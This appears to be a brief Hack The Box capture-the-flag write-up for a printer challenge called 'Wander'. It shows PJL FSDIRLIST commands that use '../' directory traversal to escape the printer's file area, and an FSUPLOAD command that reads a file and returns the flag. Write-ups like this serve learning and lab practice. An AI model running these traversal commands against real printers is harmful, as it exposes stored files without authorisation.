

---
---

# HTB - Printer Exploitation Track - Wander

Go to the site:

- If we go to Job Controls - we can use PJL commands:

- Go to this site - download the pdf:
<https://developers.hp.com/hp-printer-command-languages-pcl/doc/print-job-language-pjl>

PDF:

<https://developers.hp.com/system/files/attachments/PJLReference%282003%29_0.pdf>

- Here it explains PJL commands and how to use them.

- If we use 
**@PJL FSDIRLIST NAME="0:" ENTRY=1**

- We can see the current dir

- We can try and go up the directory tree with:

**@PJL FSDIRLIST NAME="0:/../../" ENTRY=1**

**@PJL FSDIRLIST NAME="0:/../../home/default" ENTRY=1**

- Downloading doesn't work for me:

**@PJL FSDOWNLOAD FORMAT:BINARY NAME="0:/../../home/default/readyjob" SIZE=457**

- But using upload - it seems you can read the file:

**@PJL FSUPLOAD FORMAT:BINARY NAME="0:/../../home/default/readyjob" SIZE=457**

And we get the flag